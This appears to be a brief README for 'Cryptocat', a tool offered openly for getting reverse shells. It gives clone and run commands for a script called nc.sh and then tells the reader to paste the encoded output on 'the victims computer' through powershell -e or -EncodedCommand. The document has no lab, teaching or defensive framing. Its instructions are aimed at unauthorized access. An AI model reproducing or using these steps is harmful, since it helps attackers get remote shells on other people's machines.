 # Cryptocat

### A simple tool for reverse shell 

```
git clone https://github.com/manashma/Cryptocat.git
```
```
cd Cryptocat
```
```
chmod +x nc.sh
```
```
bash nc.sh
```
#### Copy the encryped code and paste it on the victims computer
##### Ex:- powershell -e "encrypt code here" or powershell -EncodedCommand "encrypt code here"
